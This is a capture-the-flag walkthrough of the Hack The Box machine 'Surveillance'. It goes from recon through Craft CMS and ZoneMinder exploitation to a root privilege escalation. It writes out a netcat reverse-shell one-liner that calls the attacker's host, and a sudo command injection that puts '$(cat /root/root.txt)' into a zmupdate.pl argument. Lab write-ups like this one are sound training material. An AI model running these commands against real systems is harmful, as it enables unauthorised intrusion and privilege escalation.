<div style="display: flex; justify-content: center; align-items: center;">

  <div style="margin-right: 20px;">
    
  </div>

  <div style="display: flex; flex-direction: column; text-align: left;">
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">OS: </strong>
      
      <span style="margin-left: 5px;">Linux</span>
    </div>
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">Difficulty:</strong>
      <span>Medium</span>
    </div>
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">Author:</strong>
      <span>TheCyberGeek & TRX</span>
    </div>
    <div style="display: flex; align-items: center;">
      <strong style="margin-right: 5px;">Release Date:</strong>
      <span>December 9, 2023</span>
    </div>
  </div>

</div>


## Recon

### Nmap

``` bash
$ nmap -sC -sV 10.10.11.245 -o nmap_scan
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-14 15:20 WET
Nmap scan report for 10.10.11.245
Host is up (0.045s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://surveillance.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.09 seconds
```
| Port | Service |
|:----:|:-------:|
|  22  |   SSH   |
|  80  |   HTTP  |

### Gobuster

``` bash
$ gobuster dir --url http://surveillance.htb/ --wordlist /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://surveillance.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 1]
/images               (Status: 301) [Size: 178] [--> http://surveillance.htb/images/]
/img                  (Status: 301) [Size: 178] [--> http://surveillance.htb/img/]
/admin                (Status: 302) [Size: 0] [--> http://surveillance.htb/admin/login]
/css                  (Status: 301) [Size: 178] [--> http://surveillance.htb/css/]
/js                   (Status: 301) [Size: 178] [--> http://surveillance.htb/js/]
/logout               (Status: 302) [Size: 0] [--> http://surveillance.htb/]
/p1                   (Status: 200) [Size: 16230]
/fonts                (Status: 301) [Size: 178] [--> http://surveillance.htb/fonts/]
```

Important directory: /admin




## Foothold

### Shell as www-data

Searching for Craft CMS exploit, I found [CVE-2023-41892](https://www.cvedetails.com/cve/CVE-2023-41892/)
We can get a shell using this [PoC](https://gist.github.com/to016/b796ca3275fa11b5ab9594b1522f7226)

This PoC uses a proxy, we can just enable burp suite's proxy and forward the request after running the exploit


After I got the first shell I could not change directories, so I got a new revshell
``` bash
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.13 1234 >/tmp/f
``` 

## Lateral Movement

/etc/passwd


### SQL Backup file

In the directory ~/html/craft/storage/backups, there is a sql backup zip file


We can just transfer the file to our machine




### First credentials
After unzipping the file and looking through it, if we search for admin, we get a hashed password for Matthew


Using crackstation we can get Matthew's password


### user.txt flag

Just ssh as matthew with the obtained password and get the user.txt flag



## PrivEsc

### LinPEAS

Running LinPEAS on the machine, I found more ports being used


| Port |      Service      |
|:----:|:-----------------:|
|  53  |        DNS        |
|  80  |   CraftCMS Page   |
|  22  |        SSH        |
| 3306 |        SQL        |
| 8080 | Another Web Page? |


Users with console:


We can also find a database configuration with a password


Looking into the database.php file, we can also confirm the username


### Port Forwarding

Since we had found another service running on port 8080, we can portforward this port to our machine through ssh

``` bash
$ ssh matthew@surveillance.htb -L 8080:localhost:8080
```

### ZoneMinder Login

We can see that it is a ZoneMinder login page


We can use the login we got before to look through the database

``` bash
$ mysql -h 127.0.0.1 -u zmuser -p
```


In the users table, we can find the user admin, and it's hashed password


We can just update the password and login with our new provided password



We can now login in the ZoneMinder page and check the version it is running


### ZoneMinder Shell

We can use this [PoC](https://github.com/rvizx/CVE-2023-26035) to get a shell as zoneminder




### zmupdate.pl

The user zoneminder can run every file that starts with 'zm' and has the .pl extension in the /usr/bin directory


There are a lot of possible files, but the one with the vulnerability is zmupdate.pl


Looking at zmupdate.pl, which is one of the files we can run as sudo, it runs mysqldump, and then uses the $dbUser variable, we can use this to change the $dbUser variable to whatever command we want to run, and we will get an error for invalid user, but it will show us what was the user we were trying to use.
For example, if we set $dbUser to "cat /root/root.txt" we can expect to get the root flag in the user field



If we try to just run the command without any argument, it will tell us that is is already in the latest version and will not run anything else.


So we will need to use the flags -v, -u and -p (version, user and password).

``` bash
$ sudo /usr/bin/zmupdate.pl -v 1 -u '$(cat /root/root.txt)' -p '$(id)'
``` 

